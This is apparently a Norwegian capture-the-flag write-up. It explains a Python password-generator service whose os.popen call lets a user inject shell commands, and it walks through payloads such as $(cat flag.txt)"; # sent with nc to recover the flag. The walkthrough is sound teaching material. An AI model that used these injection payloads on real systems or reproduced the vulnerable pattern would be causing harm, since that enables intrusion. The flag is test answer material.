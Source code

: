 # Passord generator 500

> Passord generator
>
> Ettersom det er blitt vanskelig å lage gode passord for fremtiden så har jeg laget meg en service jeg kan ta i bruk for å generere gode passord. Hvis du vil ha et godt passord kan du godt bruke den du også!
>
> ctf.uiactf.no:5004
>
> File: `server.py`

![](00.png)

---

Her får vi presentert et Python-program som genererer passord basert på user input:

`server.py`
```python
#!/usr/bin/python3
import os

print("Velkommen til min superpassordmaskin9000v1!\n\
Gi meg en string som skal være med på å lage et nytt passord så skal jeg gi deg et skikkelig godt passord tilbake.")
print(f"String:")

input_from_client = input('> ')
sha256_output = os.popen(f'echo "{input_from_client}" | sha256sum').read()

print(f"Her er ditt gode password:\n> {''.join(sha256_output)}")
```

Vi får også oppgitt en server som kjører dette programmet. Dersom vi gir programmet `test` som input ser vi følgende:

```bash
$ echo 'test' | nc ctf.uiactf.no 5004
Velkommen til min superpassordmaskin9000v1!
Gi meg en string som skal være med på å lage et nytt passord så skal jeg gi deg et skikkelig godt passord tilbake.
String:
> Her er ditt gode password:
> f2ca1bb6c7e907d06dafe4687e579fce76b37e4e93b7605022da52e6ccc26fd2  -
```

Når vi ser gjennom kildekoden ser vi en `command injection`-sårbarhet:

```python
sha256_output = os.popen(f'echo "{input_from_client}" | sha256sum').read()
```

Her kjøres en kommando som tar i mot `untrusted user input`.

Vi kan bestemme hvilken kommando som kjøres på serveren alt etter hvilken input vi gir.

Ved å bruke payload `$(ls)"; #` kan vi f.eks. liste ut filene som ligger på serveren.

Payload `$(ls)"; #`:

Vi bruker `$()` for å kjøre ønsket kommando og avslutter deretter `echo`-kallet med `"; #`. Alt etter `#` behandles som en kommentar og `echo` spytter nå direkte ut resultatet av kommandoen vår.

Følgende kommando kjøres på serveren:

```bash
echo "$(ls)"; #" | sha256sum
```

Test:

```bash
$ echo '$(ls)"; #' | nc ctf.uiactf.no 5004
Velkommen til min superpassordmaskin9000v1!
Gi meg en string som skal være med på å lage et nytt passord så skal jeg gi deg et skikkelig godt passord tilbake.
String:
> Her er ditt gode password:
> flag.txt
server.py
```

Vi ser at det finnes et flagg på serveren. Nå kan vi bygge en ny payload som leser ut flagget.

Payload: `$(cat flag.txt)"; #`:

```bash
$ echo '$(cat flag.txt)"; #' | nc ctf.uiactf.no 5004
Velkommen til min superpassordmaskin9000v1!
Gi meg en string som skal være med på å lage et nytt passord så skal jeg gi deg et skikkelig godt passord tilbake.
String:
> Her er ditt gode password:
> UIACTF{opsi_dupsi_I_made_an_uuuupsi}
```

## Flagg
`UIACTF{opsi_dupsi_I_made_an_uuuupsi}`

